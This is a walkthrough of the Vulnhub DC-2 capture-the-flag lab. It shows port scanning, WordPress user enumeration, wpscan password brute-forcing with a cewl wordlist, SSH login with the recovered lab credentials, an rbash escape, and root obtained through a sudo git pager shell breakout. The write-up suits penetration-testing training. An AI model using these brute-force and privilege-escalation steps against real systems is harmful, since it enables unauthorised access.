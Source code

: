 ```yaml
---
layout: PostSimple
date: 2019-11-15
title:     "Vulnhub - DC 2"
tags: ['wordpress','easy','sudo','rbash']
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/1.1.png)
Today, We are going to pwn DC 2 by DCAU7 from Vulnhub


## Description

>Much like DC-1, DC-2 is another purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing.
As with the original DC-1, it's designed with beginners in mind.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
Just like with DC-1, there are five flags including the final flag.
And again, just like with DC-1, the flags are important for beginners, but not so important for those who have experience.
In short, the only flag that really counts, is the final flag.
For beginners, Google is your friend. Well, apart from all the privacy concerns etc etc.
I haven't explored all the ways to achieve root, as I scrapped the previous version I had been working on, and started completely fresh apart from the base OS install.

Download link : [https://www.vulnhub.com/entry/dc-2,311/](https://www.vulnhub.com/entry/dc-2,311/)

Lets begin with our initial nmap scan

## Nmap Scan Results

```
PORT     STATE SERVICE
80/tcp   open  http
7744/tcp open  raqmon-pdu
MAC Address: 08:00:27:E2:25:6C (Oracle VirtualBox virtual NIC)
```

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
MAC Address: 08:00:27:E2:25:6C (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Since there is HTTP port open, I gonna start my Gobuster

## Gobuster Results

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.4
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/23 12:21:05 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/server-status (Status: 403)
/wp-admin (Status: 301)
/wp-includes (Status: 301)
/wp-content (Status: 301)
/index.php (Status: 200)
===============================================================
2019/11/23 12:21:07 Finished
===============================================================
```


Its a Wordpress site 
``Flag 1``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/1.png)

It gives us a hint that our usual wordlist wont help us in bruteforcing the password instead cewl this page.

> cewl - custom word list generator

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/2.png)

I created the wordlist now

We know its a wordpress site so we can start our wpscan to enumerate users

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/3-0.png)

> We have 3 users - admin,tom,jerry

## Bruteforcing the users

So lets start our bruteforce using the wordlist we created from cewl.

> wpscan --url http://dc-2/ -P pass.out -U admin
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/3.png)

> wpscan --url http://dc-2/ -P pass.out -U tom
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/4.png)

> wpscan --url http://dc-2/ -P pass.out -U jerry
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/5.png)

## Getting Shell

I logged in with jerry
Found ``Flag 2``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/6.png)




There is no templates or plugins so i tried login with the creds in ssh which is running in the port 7744

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/7.png)

I cant login with jerry but its working with ``tom:parturient``

I found flag3 but cant view them it shows some error called ``-rbash``[br/](br/) 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/8.png)

While googling i came to know it because of problem in PATH variable.
So i copied my system PATH and export them, now its working perfectly!!

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/9.png)

>export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

According to ``Flag 3`` I came to know we can su , so i su to ``jerry:adipiscing``

and got ``Flag 4``

## Privilege Escalation

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/10.png)

This shows we can run ``git`` without root password

>https://gtfobins.github.io/gtfobins/git/

```
sudo git -p help config
!/bin/sh
```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/11.png)
.[br/](br/)
.[br/](br/)
.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/12.png)

I did according to ``GTFObins``

Got ROOT and Final Flag!!!



 